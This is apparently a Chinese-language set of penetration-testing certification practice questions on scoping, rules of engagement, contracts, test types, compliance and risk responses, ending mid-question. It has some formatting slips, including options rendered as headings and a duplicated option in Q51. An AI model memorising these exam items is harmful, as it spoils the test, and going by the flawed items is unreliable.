## 25. 你正在为即将进行的渗透测试定义参与规则（ROE）。在此过程中，你已定义了不应攻击目标的禁止时段、测试范围内和范围外的系统列表，以及测试期间收集信息的数据处理要求。你还致电目标现场的一名帮助台技术人员并获得了口头许可进行测试。你在 ROE 文档中记录了该技术人员的姓名和日期。在此场景中你做错了什么？
1. 出于隐私原因，你不应在 ROE 文档中以姓名标识内部技术人员。
2. 包含“禁止”时段会降低测试的准确性。
3. ROE 应包含来自高级管理层的书面许可。
4. 所有系统在测试期间都应是潜在目标。
5. 目标不应知道你如何存储测试期间收集的信息。

## 26. 你正在为即将进行的渗透测试定义参与规则（ROE）。这将是一次白盒评估。你已规定测试期间目标不得使用 shunning 或黑名单。你已规定目标必须向你提供对网络的内部访问权限、网络地图和身份验证凭据。你还规定由 SaaS 服务提供商提供的应用程序在测试期间属于禁止范围。在此场景中你做错了什么？
1. 目标应被允许使用其选择的任何手段进行防御。
2. 拥有有关内部网络的详细信息会使测试结果无效。
3. 所有网络资源都应接受测试，包括基于云的资源。
4. 没有。ROE 已适当定义。

## 27. 你正在为即将进行的渗透测试定义参与规则（ROE）。这将是一次黑盒评估。客户已规定他们不希望在一天的高峰时段进行测试，因此你在文档中添加了“超时”时间段，在此期间测试将被暂停。你已规定在你提交最终测试结果的测试结束前，你与客户之间不会发生任何沟通。你还规定目标必须向你提供对网络的内部访问权限、网络地图和身份验证凭据。在此场景中你做错了什么？
1. 拥有有关内部网络的详细信息会使测试结果无效。
2. 在高峰时段暂停评估会使测试结果无效。
3. 测试人员与客户之间的沟通应在整个测试期间定期进行。
4. 没有。ROE 已适当定义。

## 28. 你拥有一家小型渗透测试咨询公司。你担心如果在测试完成后数月或数年后客户的网络被在测试时不存在的漏洞利用所入侵，客户可能会起诉你。你应该怎么做？
1. 坚持要求客户在测试前签署保密协议（NDA）。
2. 在协议中包含免责声明，表明结果仅在测试执行时点有效。
3. 在协议中包含仲裁条款以防止诉讼。
4. 坚持要求客户在测试前签署工作说明书（SOW）。

## 29. 你拥有一家小型渗透测试咨询公司。你担心如果在渗透测试完成后客户的网络被漏洞利用入侵，请求黑盒评估的客户可能会起诉你。你应该怎么做？
1. 坚持要求客户在测试前签署采购订单。
2. 坚持要求客户在测试前签署主服务协议（MSA）。
3. 在协议中包含免责声明，表明测试方法会影响测试的全面性。
4. 拒绝执行黑盒测试。

## 30. 你正在为即将进行的渗透测试定义参与规则（ROE）。你正在处理文档中的问题解决部分。应在此部分包含哪些要素？（选择两项。）
1. 明确定义的问题升级程序
2. 参与的时间表
3. 范围内的系统、应用程序和服务提供商
4. 范围外的系统、应用程序和服务提供商
5. 承认渗透测试存在固有风险

## 31. 你在一家渗透测试咨询公司工作。一个你之前从未合作过的组织打电话要求你对其网络进行黑盒评估。你在电话中就价格和范围达成一致。在纸上快速设计测试后，你于当天下午晚些时候开始执行。此次测试是否正确执行？
1. 是的，遵循了适当的渗透测试计划和范围界定程序。
2. 不，新客户应在开始评估前进行适当的审查。
3. 不，应在测试开始前签署主服务协议（MSA）。
4. 不，测试的参与规则（ROE）应由双方记录并签署。

## 32. 你正在与新客户安排渗透测试的条款。以下哪种方式是获得合法许可进行测试的适当方式？
1. 通过电子邮件向高级管理人员成员请求执行测试的许可。
2. 通过电话向 IT 员工成员请求执行测试的许可。
3. 请 IT 员工成员签署一份授予你执行测试许可的文件。
4. 请高级管理人员成员签署一份授予你执行测试许可的文件。

## 33. 哪种类型的渗透测试最能模拟外部攻击？
1. 黑盒
2. 灰盒
3. 白盒
4. 蓝盒

## 34. 你需要为客户进行一次渗透测试，以最好地评估目标组织对拥有普通员工网络权限的恶意内部人员的脆弱性。你应执行哪种类型的测试？
1. 灰盒
2. 白盒
3. 黑盒
4. 红盒

## 35. 哪种类型的渗透测试需要花费最多的时间和金钱来执行？
1. 白盒
2. 灰盒
3. 黑盒
4. 绿盒

## 36. 渗透测试人员使用典型的员工电子邮件账户向目标组织内的管理人员和高管发送钓鱼邮件漏洞利用。目标是查看有多少人实际上会上当并点击消息中的链接。在此场景中正在执行哪种类型的渗透测试？
1. 黑盒
2. 灰盒
3. 白盒
4. 红盒

## 37. 你在一家渗透测试公司工作。客户打电话要求你执行一次详尽的测试，深入探测其基础设施的漏洞。你应推荐哪种类型的测试？
1. 灰盒
2. 白盒
3. 黑盒
4. 蓝盒


# 渗透测试问题

### 38. 你正在为即将进行的渗透测试定义交战规则（ROE）。这将是一次白盒评估。这将是一次内部测试。不得涉及第三方。以下哪些资源可被视为评估的范围？（选择两项。）
1. Active Directory 用户
2. 组策略中定义的密码策略
3. Microsoft Office 365 云应用程序
4. Google Docs
5. Microsoft Azure Web 服务器

### 39. 渗透测试规划和范围界定过程中最重要的一步是什么？
1. 获得客户的书面授权
2. 编写交战规则（ROE）
3. 选择测试方法
4. 定义在范围和超出范围的系统、应用程序和服务提供商

### 40. 以下哪一项是正式文件，精确定义了渗透测试期间将执行的内容？
1. 主服务协议（MSA）
2. 不披露协议（NDA）
3. 工作说明书（SOW）
4. 采购订单（PO）

### 41. 你在一家渗透测试公司工作。你与潜在客户共进晚餐。为了展示贵组织在渗透测试方面的技术专长，你按名称列出几家其他客户，并详细描述评估在每个客户处发现的各种问题。你这样做时违反了以下哪一项？
1. 工作说明书（SOW）
2. 不披露协议（NDA）
3. 主服务协议（MSA）
4. 采购订单（PO）

### 42. 你在一家渗透测试公司工作。潜在客户致电咨询你的服务。在了解贵组织能做什么之后，客户决定安排一次黑盒测试。如果他们对结果满意，可能会考虑未来的测试。你可能会先要求客户签署以下哪一项？
1. 采购订单（PO）
2. 不披露协议（NDA）
3. 主服务协议（MSA）
4. 工作说明书（SOW）

### 43. 以下哪一项是合同，双方同意其中大部分条款将规范未来协议？
1. 主服务协议（MSA）
2. 不披露协议（NDA）
3. 工作说明书（SOW）
4. 采购订单（PO）

### 44. 你最近被一家安全公司聘用，负责对客户进行渗透测试。你的新雇主最有可能要求你在受雇条件下签署哪些协议？（选择两项。）
1. 主服务协议（MSA）
2. 不披露协议（NDA）
3. 工作说明书（SOW）
4. 采购订单（PO）
5. 竞业禁止协议

### 45. 你的渗透测试咨询公司正在与美国联邦政府谈判合同，以对其某些系统进行渗透测试。你将被要求签署哪些协议来代替工作说明书（SOW）？（选择两项。）
1. 目标说明书（SOO）
2. 绩效工作说明书（PWS）
3. 竞业禁止协议
4. 采购订单（PO）

### 46. 你正在定义即将进行的渗透测试的范围。你的客户办公室位于一个拥有许多其他租户的大型办公综合体中。客户要求你将组织的网络纳入测试。哪些参数应被确定为在范围内？（选择两项。）
1. 邻近租户拥有的面向公众的 Web 服务的 IP 地址
2. 邻近租户拥有的边界安全设备的 IP 地址
3. 邻近租户使用的无线 SSID
4. 客户使用的无线 SSID
5. 客户内部网络使用的 IP 地址范围

### 47. 你最近为客户完成了一次渗透测试，现在需要撰写最终结论。你应该怎么做？
1. 依靠你对测试期间发生情况的记忆来创建报告。
2. 分析测试人员的书面日志文件。
3. 请你的同事测试人员通过电子邮件发送他们在测试期间发现的前三个问题。
4. 请客户的 IT 人员通过电子邮件发送他们在测试期间注意到的前三个问题。

### 48. 客户聘请你测试其设施的物理安全。他们给了你自由去尝试渗透其设施，使用任何你想要的方法，只要不伤害任何人或损坏财产。在此场景中正在进行哪种类型的评估？
1. 基于目标
2. 并购前
3. 合规性
4. 供应链

### 49. 你的客户之一接受客户的信用卡，并使用其内部网络和服务器处理付款。信用卡公司各自规定客户必须定期进行渗透测试，以确保其密码策略、数据隔离策略、访问控制和密钥管理机制能够充分保护消费者信用卡数据。在此场景中需要哪种类型的评估？
1. 基于目标
2. 合规性
3. 供应链
4. 红队

### 50. 你的其中一个客户最近被一家大型跨国组织收购。在收购最终确定之前，你的客户必须接受一次广泛的渗透测试。在此场景中需要哪种类型的评估？
1. 基于目标
2. 并购前
3. 合规性
4. 供应链

### 51. 某组织的网络最近遭到黑客攻击。攻击者首先入侵了该组织其中一名承包商使用的薄弱安全措施。然后他们使用承包商的身份验证凭据进入组织本身。哪种类型的渗透评估本可以防止这种情况？
1. 基于目标
2. 并购前
3. 基于目标
4. 供应链

### 52. 你在一家大型组织的安保团队工作。你的团队被要求进行内部渗透测试，以验证贵组织的 IT 人员是否能够充分抵御攻击。在此场景中使用的是哪种类型的评估？
1. 基于目标
2. 合规性
3. 供应链
4. 红队

### 53. 以下哪一种对手层级通常按从最不具威胁到最具威胁的顺序对威胁行为者进行排名？
1. 脚本小子、黑客行动主义者、恶意内部人员、有组织犯罪、国家行为体
2. 脚本小子、恶意内部人员、黑客行动主义者、有组织犯罪、国家行为体
3. 黑客行动主义者、脚本小子、恶意内部人员、国家行为体、有组织犯罪
4. 国家行为体、有组织犯罪、恶意内部人员、黑客行动主义者、脚本小子

### 54. 你的客户之一是一个公共倡导团体。其中的一些政治立场在几个边缘活动人士中非常不受欢迎，他们担心黑客行动主义者可能会劫持其面向公众的网站。他们要求你使用典型的黑客行动主义者具备技术能力和资金使用的相同工具和技术运行渗透测试。在此场景中发生了什么过程？
1. 尽职调查
2. 风险接受
3. 威胁建模
4. 范围蔓延

### 55. 你正在与新客户会面，以确定未来渗透测试的参数。在讨论过程中，你询问客户是否愿意接受渗透测试可能导致其组织内服务中断的事实。客户肯定地回应。在此场景中发生了什么过程？
1. 风险接受
2. 尽职调查
3. 威胁建模
4. 风险转移


### 56. 你正在为客户进行渗透测试。原始测试要求你测试客户其中一个远程分支机构的安全性。今天客户来电表示他们担心第二个分支机构的安全就绪情况。他们坚持要求你将渗透测试范围扩大到该第二个站点。在此场景中发生了什么过程？
1. 尽职调查
2. 风险接受
3. 威胁建模
4. 范围蔓延

### 57. 客户要求你进行一次白盒渗透测试。她的组织在英国、沙特阿拉伯、巴基斯坦和香港设有办公室。你将渗透测试工具包加载到你的笔记本电脑上，并前往每个办公室现场进行评估。在此场景中你做错了什么？
1. 国际运输某些渗透测试软件和硬件可能是非法的。
2. 笔记本电脑的计算能力不足以有效运行渗透测试。
3. 可以通过从测试人员家中远程运行评估来降低差旅成本。
4. 没有。你做的一切都是正确的。

### 58. 客户要求你进行一次白盒渗透测试。她的组织在美国、印度尼西亚、泰国和新加坡设有办公室。为避免国际运输你的渗透测试软件，你将其上传到你的 Google Drive 账户。然后你前往每个站点，下载软件，并在笔记本电脑上本地运行。在此场景中你是否妥善处理了你的渗透测试软件？
1. 是的，使用 Google Drive 在国际上访问软件可以使你免于被起诉。
2. 不，大多数外国国家会阻止访问 Google Drive。
3. 不，将大多数渗透测试软件带入这些国家是合法的。
4. 不，通过互联网国际运输大多数渗透测试软件是非法的。

### 59. 你被要求为一家在纽约市、洛杉矶和法戈设有办公室的组织进行渗透测试。在确定评估范围时，你需要检查哪些网络安全法律法规？
1. 美国联邦网络安全法
2. 纽约、加利福尼亚和北达科他州的州网络安全法
3. 每个物理位置的当地网络安全法
4. 国际刑警组织法规

### 60. 客户要求你进行一次白盒渗透测试。目标是评估其基于 Web 的应用程序的安全性。这些应用程序使用简单对象访问协议（SOAP）。在范围确定过程中，你认为如果能访问组织内部的这些应用程序文档会有所帮助。你应该向客户索取以下哪一项？
1. Web 服务描述语言（WSDL）文档
2. 软件开发工具包（SDK）文档
3. Web 应用程序描述语言（WADL）文档
4. 应用程序编程接口（API）文档

### 61. 客户要求你进行一次白盒渗透测试。目标是评估其基于 Web 的应用程序的安全性。这些应用程序基于表述性状态转移（REST）架构。在范围确定过程中，你认为如果能访问组织内部的这些应用程序文档会有所帮助。你应该向客户索取以下哪一项？
1. Web 服务描述语言（WSDL）文档
2. 软件开发工具包（SDK）文档
3. Web 应用程序描述语言（WADL）文档
4. 应用程序编程接口（API）文档

### 62. 客户要求你进行一次白盒渗透测试。目标是评估几个使用 C++ 编程语言内部编写的 PC 应用程序的安全性。这些应用程序由员工日常使用来管理订单、库存和付款。在范围确定过程中，你认为如果能访问组织内部的这些应用程序软件开发文档会有所帮助。你应该向客户索取以下哪两项？
1. 简单对象访问协议（SOAP）文档
2. 软件开发工具包（SDK）文档
3. Web 应用程序描述语言（WADL）文档
4. 应用程序编程接口（API）文档

### 63. 你正在为客户确定黑盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的信息。在开始测试之前，客户应向你提供哪些信息？
1. 架构图
2. Swagger 文档
3. XSD
4. 网络图

### 64. 你正在为客户确定白盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密研究数据。你希望针对客户终端用户每天用来编目和存储数据库中信息的内部开发的数据收集应用程序。在开始测试之前，客户应向你提供哪些信息？
1. 架构图
2. 示例请求
3. XSD
4. 以上所有

### 65. 你正在为客户确定白盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密客户数据。你已向客户索取架构图。客户应向你提供哪些信息？（选择两项。）
1. Swagger 文档
2. 简单对象访问协议（SOAP）文档
3. 网络图
4. XSD
5. 设施地图

### 66. 你正在为客户确定白盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密研究数据。为此，你已要求客户向你提供终端用户用来生成示例应用程序请求的应用程序的访问权限。请求中应包含哪些具体应用程序？（选择两项。）
1. 用于访问存储在数据库中的信息的内部开发的桌面应用程序
2. Microsoft Word，终端用户每天用来撰写存储在数据库中的文档
3. Microsoft Excel，终端用户每天用来撰写存储在数据库中的电子表格
4. 用于使用存储在数据库中的信息生成报告的内部开发的 Web 应用程序
5. Adobe Photoshop，终端用户每天用来编辑存储在数据库中的图形文件

### 67. 你想要为客户用户每天用来完成日常任务的内部开发的 Web 应用程序生成示例应用程序请求。这应该如何完成？
1. 在 Web 应用程序中输入与终端用户完全相同的数据。
2. 输入与终端用户输入到应用程序中的数据相似的数据。
3. 向应用程序输入完全意外的數據。
4. 请系统管理员为你生成样本。

### 68. 以下哪一项是消息协议规范，定义了结构化信息如何在 Web 应用程序之间交换，并且由 WSDL 文件创建？
1. SOAP
2. XSD
3. WADL
4. Swagger

### 69. 以下哪一项是开源框架，旨在帮助开发人员设计、构建、记录和测试表述性状态转移（REST）Web 服务？
1. SOAP
2. XSD
3. WSDL
4. Swagger

### 70. 以下哪种协议是表述性状态转移（REST）Web 应用程序架构基于的？
1. FTP
2. HTTP


### 3. SMB
### 4. LDAP

## 71. 以下哪一项是用于描述简单对象访问协议（SOAP）服务器提供的功能的基于 XML 的接口定义语言？
1. Web 服务描述语言（WSDL）
2. Web 应用描述语言（WADL）
3. 表征性状态转移（REST）
4. Swagger

## 72. 以下哪种架构用于提供在 Web 应用服务器上运行的基于 HTTP 的 Web 服务的基于 XML 的描述，并且通常与表征性状态转移（REST）Web 应用一起使用？
1. 简单对象访问协议（SOAP）
2. Web 应用描述语言（WADL）
3. 表征性状态转移（REST）
4. Swagger

## 73. 以下哪一项是万维网联盟（W3C）的规范，标识如何在 XML 文档中定义元素？
1. SOAP
2. XSD
3. REST
4. WSDL

## 74. 你正在为客户规划一次白盒渗透测试。目标是查看是否可以访问存储在内部数据库服务器上的机密研究数据。你想要针对客户终端用户每天用来编目和存储数据库中信息的内部开发的数据收集应用程序。在开始测试之前，客户应向你提供哪些信息？
1. 配置文件
2. 数据流图
3. 软件开发工具包（SDK）文档
4. 以上所有

## 75. 你正在为客户规划一次白盒渗透测试。目标是查看是否可以访问存储在内部数据库服务器上的敏感患者数据。在开始测试之前，客户应做什么？（选择两项。）
1. 在其入侵保护系统（IPS）中将测试人员的用户账户列入黑名单。
2. 在其入侵保护系统（IPS）中将测试人员的用户账户列入白名单。
3. 配置网络防火墙以在失效打开模式下运行。
4. 配置安全例外，允许渗透测试人员的系统绕过网络访问控制（NAC）。
5. 配置网络防火墙以在失效关闭模式下运行。

## 76. 你正在为客户规划一次黑盒渗透测试。目标是查看是否可以访问存储在内部数据库服务器上的敏感财务数据。在开始测试之前，客户应做什么？
1. 为测试人员创建内部用户账户，其权限级别与普通员工相同。
2. 在其 Web 应用防火墙（WAF）中将测试人员的用户账户列入白名单。
3. 配置证书固定。
4. 配置安全例外，允许渗透测试人员的系统绕过网络访问控制（NAC）。
5. 以上均不对。

## 77. 你正在为客户规划一次白盒渗透测试。客户已实施使用 IPSec 的网络访问控制（NAC），以防止不符合公司政策的设备连接到安全内部网络。由于你正在进行白盒测试，你的测试人员系统需要绕过 NAC 并获得对内部安全网络的直接访问。客户应做什么来实现这一点？
1. 配置证书固定。
2. 将他们的计算机连接到位于安全内部网络上的交换机端口。
3. 为每个系统配置 NAC 例外。
4. 暂时禁用 NAC。

## 78. 在一次渗透测试期间，员工将一扇无人监控的侧门敞开，测试人员随后利用它获得了对客户设施的物理访问。为了防止这种情况再次发生，客户完全将门及其门框从建筑物中移除，并用混凝土填满空间。本场景中描述的是哪种类型的风险响应？
1. 规避
2. 转移
3. 缓解
4. 接受

## 79. 在一次渗透测试期间，员工将一扇无人监控的侧门敞开，测试人员随后利用它获得了对客户设施的物理访问。为了防止这种情况再次发生，客户在走廊放置一名保安并指示她防止未经授权的访问。本场景中描述的是哪种类型的风险响应？
1. 规避
2. 转移
3. 缓解
4. 接受

## 80. 你的客户托管一个大型电子商务网站，销售服装和配饰。在一次渗透测试期间，测试人员能够在内部卡处理应用程序处理客户信用卡号码时拦截这些号码。为了防止这种情况再次发生，客户决定将所有信用卡处理外包给第三方处理商。所有交易都被重定向到第三方处理商，使得你的客户永远看不到实际的信用卡数据。本场景中描述的是哪种类型的风险响应？
1. 规避
2. 转移
3. 缓解
4. 接受

## 81. 一个组织最近得知其设施建在主要断层线几百码范围内。管理团队决定购买一份扩展保险政策，以防地震发生时覆盖业务运营损失。本场景中描述的是哪种类型的风险响应？
1. 规避
2. 转移
3. 缓解
4. 接受

## 82. 在一次渗透测试期间，你的测试人员发现他们可以轻松地将机密数据复制到个人移动设备，然后使用设备的移动宽带连接将数据发送给组织外部的收件人。你建议他们实施移动设备管理（MDM）系统。然而，客户认为这种措施成本太高且实施复杂。事实上，他们不会实施任何类型的控制措施来防止这种情况在未来发生。本场景中描述的是哪种类型的风险响应？
1. 规避
2. 转移
3. 缓解
4. 接受

## 83. 你刚刚与一位新客户会面，该客户要求你为其执行渗透测试。客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS。范围界定过程中你首先应该做什么？
1. 谈判渗透测试的费用。
2. 审查 PCI-DSS 要求。
3. 安排渗透测试的时间表。
4. 假装成顾客并访问多个店面以预先评估组织。

## 84. 你刚刚与一位新客户会面，该客户要求你为其执行渗透测试。客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS。以下哪些测试需要在评估中包含？（选择两项。）
1. 对持卡人数据的物理访问受到限制。
2. 持卡人数据环境（CDE）与网络其余部分隔离。
3. 信用卡购买设有退款政策。
4. 设有拒付政策。
5. 收银员必须将卡上的签名与客户的签名核对。

## 85. 你刚刚与一位新客户会面，该客户要求你为其执行渗透测试。客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS。以下哪些测试需要在评估中包含？（选择两项。）
1. 仅使用微软认证为 Windows 10 兼容的硬件。
2. 对持卡人数据的传输进行加密。
3. 确保所有员工使用同一个用户账户访问网络资源和持卡人数据。


### 4. 使用 NAT 路由器将持卡人数据环境 (CDE) 与网络其余部分隔离。

### 5. 从软件和硬件设备中删除所有默认密码。

### 86. 你刚刚与一位新客户会面，该客户要求你为其执行渗透测试。该客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS 标准。以下哪些测试需要在评估中包含？
1. 在所有系统上安装并更新防病毒软件。
2. 在环境中使用仅经过安全认证的 Cisco 路由器。
3. 关闭保护持卡人数据环境 (CDE) 的防火墙中除 139 和 445 之外的所有端口。
4. 禁用对持卡人数据访问的所有监控。

### 87. 你刚刚与一位新客户会面，该客户要求你为其执行渗透测试。该客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS 标准。以下哪些测试需要在评估中包含？
1. 必须制定密码策略。
2. 关闭保护持卡人数据环境 (CDE) 的防火墙中除 80 和 443 之外的所有端口。
3. 网络上的所有主机必须具有默认网关。
4. 网络上的所有主机必须具有唯一的地址。

### 88. 你刚刚与一位新客户会面，该客户要求你为其执行渗透测试。该客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS 标准。以下哪些测试需要在评估中包含？（选择两项。）
1. 监控对持卡人数据的所有访问。
2. 确保所有无线网络使用 WPA2 进行保护。
3. 确保所有无线网络使用 TKIP 进行保护。
4. 按需知原则限制对持卡人数据的访问。

### 89. 哪部法律规范金融机构如何处理客户的个人信息？
1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

### 90. 哪部法律要求医疗相关组织必须符合某些安全标准？
1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

### 91. 哪部法律为美国上市公司在安全政策、标准和控制方面设定标准？
1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

### 92. 以下哪一项提供了认证加密模块的标准？
1. GLBA
2. SARBOX
3. HIPPA
4. FIPS 140-2

### 93. 一位新客户打电话安排一次灰盒渗透测试。你通过电话收集了一些关于客户的基本信息，制定了测试范围，并为测试创建了时间表。然后你雇佣了几名承包商来协助进行测试，并在计划日期开始评估。你是否正确地确定了本次评估的范围？
1. 是的，遵循了适当的范围界定程序。
2. 不，时间表应在创建范围之前定义。
3. 不，你在确定评估范围之前应该花更多时间了解目标受众。
4. 不，合同应该有助于创建评估范围。

### 94. 你刚刚为客户完成了一次灰盒渗透测试。你已撰写最终报告并交付给客户。你还确保了客户授予你进行测试的所有访问权限已被禁用。你撰写了一篇博客文章，点名客户并公布评估结果，并发布它以确保没有其他人犯下客户同样的安全错误。你是否正确终止了渗透测试？
1. 是的，渗透测试已正确终止。
2. 不，访问权限应保留以备下一次渗透测试。
3. 不，应在生成最终报告之前删除访问权限。
4. 不，未维护发现结果的保密性。

### 95. 你正在为客户确定即将进行的外部黑盒渗透测试范围。你正试图确定测试中将包含什么以及不包含什么。你应该向客户提出以下哪些问题？（选择两项。）
1. 测试是否应集中于特定已知漏洞？
2. 客户是否会授予其设施的物理访问权限？
3. 测试是否应查找未知漏洞？
4. 客户是否会提供管理员级账户以进行评估？

### 96. 你正在为客户确定即将进行的外部黑盒渗透测试范围。你的一名渗透测试人员开发了一款非常激进的漏洞扫描器。事实上，在之前的测试中，她的扫描器导致客户面向客户的网站几乎宕机了 30 分钟。然而，通过这样做，该客户能够了解到其 Web 应用程序软件中多个漏洞的许多信息。对于当前客户，你应该怎么做？
1. 指示你的渗透测试人员在即将进行的评估中不要使用她的漏洞扫描器。
2. 指示你的渗透测试人员在即将进行的评估中使用她的漏洞扫描器。
3. 与新客户进行影响分析并确定其对影响的容忍度。
4. 解雇该渗透测试人员。

### 97. 在计划即将进行的渗透测试时，你的客户要求你在项目范围中包含评估的最终状态描述。此描述中应包含什么类型的信息？（选择两项。）
1. 分配给测试的资金花费情况的明细
2. 测试完成后将向客户提供的报告类型的描述
3. 提供使其系统达到合规所需时间估计的修复时间表
4. 进行评估的所有渗透测试人员的名单

### 98. 你正在确定即将进行的渗透测试的范围。你需要确定与测试相关的技术限制。范围文档的这一部分应包含什么？
1. 测试人员无资格使用的渗透测试工具列表
2. 禁止测试的系统列表
3. 客户 IT 人员未获得认证的技术列表
4. 客户组织内使用的未经认证的硬件设备列表

### 99. 你正处于与新客户确定灰盒渗透测试范围的初始阶段。什么问题可以帮助更好地定义项目范围？
1. 谁过去为客户执行过渗透测试？
2. 所有内部技术人员的姓名和电子邮件地址是什么？
3. 测试应在现场进行还是从异地进行？
4. 是否有靠近窗户的隔间可供渗透测试人员使用？

### 100. 你正在确定黑盒渗透测试的范围。渗透测试人员在物理上应位于何处？
1. 在组织的 IT 部门内部
2. 任何外部位置
3. 在竞争对手组织的设施内
4. 在组织设施内部的任何地方

### 101. 你是中型企业的首席信息官。你正在制定实施定期渗透测试的计划，并考虑使用由自己的员工组成的内部渗透测试团队。以下哪些是使用内部团队的好处？（选择两项。）
1. 他们对组织有背景知识。
2. 他们比外部承包商更少偏见。
3. 他们具有执行彻底测试所需的独立性。


4. 他们拥有为众多组织执行渗透测试的深入经验。
5. 通常比使用外部承包商更便宜。

## 102. 您是中型企业的首席信息官。您正在制定实施定期渗透测试的计划，并考虑使用外部渗透测试承包商。以下哪些是使用外部团队的好处？（选择两项。）
1. 他们对组织具有上下文知识。
2. 他们比内部团队更少偏见。
3. 他们拥有执行彻底测试所需的独立性。
4. 他们非常熟悉组织内部的安全控制措施。
5. 通常比使用内部团队更便宜。

## 103. 您是中型企业的首席信息官。您正在制定实施定期渗透测试的计划，并考虑使用由自己的员工组成的内部渗透测试团队。以下哪些是使用内部团队的缺点？（选择两项。）
1. 维护内部团队成本很高。
2. 如果他们也为您的竞争对手之一执行测试，则存在潜在的利益冲突。
3. 他们可能会觉得发现的漏洞会让他们显得不好。
4. 他们可能缺乏客观性。

## 104. 您是中型企业的首席信息官。您正在制定实施定期渗透测试的计划，并考虑使用外部渗透测试承包商。以下哪些是使用外部团队的缺点？（选择两项。）
1. 如果他们也为您的竞争对手之一执行测试，则存在潜在的利益冲突。
2. 他们缺乏内部团队的技术人才。
3. 他们通常比内部团队更昂贵。
4. 他们可能会将个人偏见带入测试。

## 105. 以下哪一项最能描述渗透测试背景下术语 *黑客思维*？
1. 渗透测试人员必须采取防御性思维，试图抵御所有威胁。
2. 渗透测试人员必须像安全专业人员一样思考，评估每种正在使用的安全控制的强度和价值。
3. 渗透测试人员必须像可能在现实世界中攻击系统的对手一样思考。
4. 渗透测试人员必须像军事领导者一样思考，组织多名攻击者对多个战线发动的公开攻击。

## 106. 以下哪一项最能描述渗透测试背景下术语 *保密性*？
1. 防止未经授权访问信息
2. 防止对信息进行未经授权的修改
3. 确保信息可供授权访问
4. 防止合法访问信息

## 107. 以下哪一项最能描述渗透测试背景下术语 *完整性*？
1. 防止未经授权访问信息
2. 防止对信息进行未经授权的修改
3. 确保信息可供授权访问
4. 未经授权访问信息

## 108. 以下哪一项最能描述渗透测试背景下术语 *可用性*？
1. 防止未经授权访问信息
2. 防止对信息进行未经授权的修改
3. 确保信息可供授权访问
4. 对信息进行未经授权的更改

## 109. 以下哪一项最能描述渗透测试背景下术语 *披露*？
1. 未经授权访问信息
2. 对信息进行未经授权的更改
3. 防止信息的合法使用
4. 公开承认发生了安全漏洞，信息已被泄露

## 110. 以下哪一项最能描述渗透测试背景下术语 *篡改*？
1. 未经授权访问信息
2. 对信息进行未经授权的更改
3. 防止信息的合法使用
4. 利用一次成功的入侵来入侵网络中另一个原本无法访问的系统

## 111. 以下哪一项最能描述渗透测试背景下术语 *拒绝*？
1. 未经授权访问信息
2. 对信息进行未经授权的更改
3. 防止信息的合法使用
4. 未能公开承认发生了安全漏洞且信息已被泄露

## 112. Natasha 正在进行灰盒渗透测试，并发现了一个 Web 应用程序中的漏洞，该漏洞允许她直接访问后端数据库服务器上存储的信息。她完成了哪一项渗透测试目标？
1. 披露
2. 完整性
3. 篡改
4. 拒绝

## 113. Kimberly 正在进行灰盒渗透测试，并发现了一个在线公司目录应用程序中的漏洞，该漏洞允许她在员工查询字段中提交 LDAP 命令。她利用此漏洞添加了一个新用户账户，可用作后门。她完成了哪一项渗透测试目标？
1. 披露
2. 可用性
3. 篡改
4. 拒绝

## 114. Jessica 正在进行灰盒渗透测试。她使用 Low Orbit Ion Cannon 实用程序向组织内的文件服务器发送大量 TCP 数据包。结果，文件服务器超载，无法再响应合法的网络请求。她完成了哪一项渗透测试目标？
1. 披露
2. 保密性
3. 篡改
4. 拒绝

## 115. Brittany 正在进行灰盒渗透测试。她发现了一个 HR Web 应用程序中的漏洞。通过使用 SQL 注入攻击，她可以为当前工资期的员工工时卡添加或删除工时。她完成了哪一项渗透测试目标？
1. 披露
2. 可用性
3. 篡改
4. 保密性

## 116. 一家在线零售商直接处理信用卡订单的支付处理。因此，信用卡公司要求该组织符合 PCI-DSS 标准。该组织必须在何时进行渗透测试？（选择两项。）
1. 每月一次
2. 每六个月一次
3. 每年一次
4. 每当对网络基础设施进行重大更改时
5. 在高峰销售季，如假日之前立即进行

## 117. Joshua 为一家渗透测试咨询公司工作。在最近的一次渗透测试中，他对客户的面向公众的电子商务网站运行了攻击工具。该网站离线超过一小时。客户现在威胁要起诉 Joshua 的雇主。咨询公司和客户应在渗透测试过程的哪个阶段就测试相关的风险达成一致？
1. 规划和范围界定
2. 信息收集和漏洞识别
3. 攻击和利用
4. 报告和沟通

## 118. 以下哪一项是在渗透测试的规划和范围界定阶段定义的文档，该文档确定了测试的具体技术、工具、活动、交付成果和时间表？
1. MSA
2. NDA
3. 谅解备忘录
4. SOW

## 119. 以下哪种类型的评估可以在不要求测试人员实际入侵该防火墙的情况下为渗透测试人员提供网络防火墙配置的访问权限？
1. 灰盒
2. 红队
3. 黑盒
4. 白盒


# 渗透测试问题

### 120. 你是初创公司的首席信息官。你已选定一家渗透测试公司，希望用其来执行公司的首次渗透测试。然而，公司创始人得知你的计划后感到不满。创始人担心公司的产品专有信息可能通过承包商泄露给竞争对手。你应该要求承包商签署哪份文件以防止这种情况发生？
1. NDA
2. 竞业禁止协议
3. MSA
4. SOW

### 121. 根据对手分级列表，以下哪种威胁行为者可能最不危险？
1. 黑客行动主义者
2. 恶意内部人员
3. 脚本小子
4. 国家级行为者

### 122. 根据对手分级列表，以下哪种威胁行为者可能最危险？
1. 黑客行动主义者
2. 恶意内部人员
3. 有组织犯罪行为者
4. APT

### 123. 你正在为客户进行渗透测试。你使用运行在个人笔记本电脑上的渗透测试工具包对各种网络基础设施设备进行扫描，包括服务器、路由器和交换机。突然，网络中断了。你无法再访问客户网络上的任何设备。以下哪种情况可能解释了发生了什么？
1. 你的扫描导致边界路由器崩溃。
